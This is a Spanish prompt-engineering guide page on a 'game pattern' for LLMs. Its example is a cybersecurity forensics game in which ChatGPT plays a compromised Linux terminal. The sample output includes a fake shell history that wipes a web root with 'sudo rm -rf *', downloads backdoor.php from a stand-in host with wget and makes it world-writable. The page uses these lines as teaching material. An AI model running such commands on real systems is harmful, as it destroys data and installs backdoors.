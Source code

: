 <div align=right>

|[Inicio](/README.md)|[Introducción](/documentos/intro.md)|[Panorámica](/documentos/panorámica.md)|[Prompts](/prompts/README.md)|[Ingeniería de Prompts](/ingenieriaDePrompts/README.md)|[Patrones](/ingenieriaDePrompts/patrones/README.md)|[Casos de Uso](/casosDeUso/README.md)|
|-|-|-|-|-|-|-

</div>

# Patrón de Juego

[💬](https://chat.openai.com/share/22b54976-a727-4ef3-88fe-41d0697345b3)

## Intención y Contexto

La intención de este patrón es crear un juego en torno a un tema determinado. El patrón puede combinarse con el Generador de Visualización para añadir imágenes al juego. El juego se centra en un tema específico y el LLM guiará el juego. Este patrón es particularmente efectivo cuando las reglas del juego son relativamente limitadas en alcance, pero se espera que el contenido del juego sea amplio. El usuario puede especificar un conjunto limitado de reglas y luego el LLM puede automatizar la generación de contenidos para el juego.

## Motivación

Te gustaría que el LLM generase escenarios o preguntas en torno a un tema específico y requerir que los usuarios apliquen habilidades de resolución de problemas u otras habilidades para lograr una tarea relacionada con el escenario. Generar todo el contenido para el juego manualmente sería demasiado tedioso, sin embargo, te gustaría que el LLM aplicase su conocimiento sobre el tema para guiar la generación de contenido.

## Estructura e Ideas Clave

Declaraciones contextuales fundamentales:

|Declaraciones Contextuales
|-|
Crea un juego para mí en torno a X
Una o más reglas fundamentales del juego

La primera declaración instruye al LLM a crear un juego y proporciona el enfoque importante del juego a un área temática. Una de las capacidades importantes del patrón es que permite al usuario crear juegos describiendo las reglas del juego, sin tener que determinar el contenido del juego. Cuanto más específico sea el tema, típicamente el juego será más novedoso e interesante.

La segunda declaración presenta las reglas del juego al LLM. Es importante que las reglas se ajusten a las capacidades del LLM. Los juegos textuales que dependen de secuencias de texto de entrada y salida funcionan mejor. Uno de los atributos clave del patrón es que el texto de entrada puede ser rico y expresivo, lo que puede llevar a interfaces interesantes para el juego. Por ejemplo, el usuario podría expresar acciones en el juego como scripts que dictan una secuencia de acciones complejas, como "obtener un listado de toda la actividad de la red y comprobar si hay anomalías", lo que va más allá del alcance de las entradas de opción múltiple o respuesta corta. Cada regla debe proporcionarse como una declaración separada con respecto a algún aspecto del juego.

## Ejemplo de Implementación

A continuación se muestra un ejemplo de un juego sobre ciberseguridad:

> "Vamos a jugar a un juego de ciberseguridad. Vas a pretender ser un terminal Linux de un ordenador que ha sido comprometido por un atacante. Cuando escriba un comando, vas a mostrar el texto correspondiente que el terminal Linux produciría. Voy a usar comandos para intentar descubrir cómo fue comprometido el sistema. El ataque debería haber hecho una o más de las siguientes cosas: (1) lanzado nuevos procesos, (2) cambiado archivos, (3) abierto nuevos puertos para recibir comunicación, (4) creado nuevas conexiones salientes, (5) cambiado contraseñas, (6) creado nuevas cuentas de usuario, o (7) leído y robado información. Para comenzar el juego, imprime un escenario de lo que sucedió que llevó a mi investigación y haz que la descripción tenga pistas que pueda usar para comenzar."

Este juego de ciberseguridad combina varios patrones, incluyendo el de Juego y el de Personalidad. La personalidad del terminal Linux que se elige para el juego [ha sido discutida en muchas publicaciones en Internet](https://www.engraved.blog/building-a-virtual-machine-inside/). Este juego personaliza aún más la personalidad de Linux discutida para actuar como un terminal Linux de un ordenador comprometido por un ciberataque. ChatGPT responde a los comandos de Linux con las salidas del terminal apropiadas y sintetiza un sistema de archivos falso que tiene pistas sobre un ciberataque.

Una muestra de la salida de este juego con ChatGPT después de escribir "ls -alt", el comando de Linux para generar una lista de archivos en el directorio actual se muestra a continuación (los permisos han sido eliminados por razones de formato):

```
total 56
 5 user user  4096 Feb 16 14:31 .
 1 user user 18881 Feb 16 14:31 .bash_history
43 user user  4096 Feb 16 14:30 ..
 1 user user  1178 Aug 15  2022 .bashrc
 1 user user   220 Aug 15  2022 .bash_logout
 3 user user  4096 Feb 16 14:25 .gnupg
 1 user user  4041 Feb 15 17:52 README.md
 2 user user  4096 Feb 1  11:35 project
```

Cuando el usuario luego escribió el comando "cat .bash history", para mostrar el contenido del archivo de registro que muestra los comandos ejecutados por el usuario, ChatGPT respondió con:

```
cd /var/www/html
sudo rm -rf *
sudo wget https://example.com/backdoor.php
sudo chmod 777 backdoor.php
exit
ls -alt
ps -ef
netstat -tulnp
```

En la salida anterior, ChatGPT generó un archivo de registro falso con comandos realistas para eliminar los datos que están siendo servidos por el servidor web en /var/www/html y reemplazar el contenido con una puerta trasera en el sistema.

## Consecuencias

Este patrón se puede combinar eficazmente con los patrones [Persona](persona.md), [Generación Infinita](generacionInfinita.md) y [Generador de Visualización](generadorDeVisualizacion.md). Por ejemplo, el juego de ciberseguridad utiliza el patrón de Persona para que el LLM pueda hacerse pasar por un terminal Linux. Para un juego de seguridad de red, el Generador de Visualización podría emplearse para agregar la capacidad de visualizar la topología de la red y los flujos de tráfico.

